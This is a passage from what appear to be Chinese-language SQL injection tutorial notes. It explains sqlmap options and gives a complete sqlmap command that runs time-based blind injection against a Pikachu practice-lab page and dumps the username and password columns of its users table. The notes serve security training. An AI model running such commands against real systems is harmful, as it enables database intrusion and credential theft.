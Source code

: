-T  指定表
--columns  获取字段名

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675305151319-18f25e40-43ad-4321-98b2-6e91fa92dfad.png)

```sql
sqlmap -u "http://d19.s.iproute.cn/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name -v 1 --technique=T --batch -D pikachu -T users -C "id,username,password" --dump
```

-C 指定查询的字段
--dump 导出数据

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675305736911-62e7a021-74bc-4036-a039-49764a31613a.png)